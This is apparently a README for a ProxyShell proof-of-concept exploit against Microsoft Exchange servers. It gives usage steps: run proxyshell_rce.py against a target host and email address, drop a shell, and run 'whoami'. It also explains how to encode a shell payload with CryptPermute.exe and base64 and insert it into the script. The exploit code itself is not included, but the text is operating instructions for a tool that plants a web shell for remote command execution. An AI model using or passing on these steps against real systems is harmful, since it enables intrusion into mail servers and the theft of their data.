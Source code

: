# proxyshell-poc

## base usage
1. `python3 proxyshell_rce.py -u ip|domain -e user@domain.com`
2. `dropshell`
3. `whoami`

## generate CryptPermute content
1. execute `CryptPermute.exe shell.txt`, generate file `poc`.
2. base64 `poc` file.
3. Replace the contents of line 314 of the `proxyshell.py` file:
```
<t:Content>base64 `poc` file string</t:Content>
```

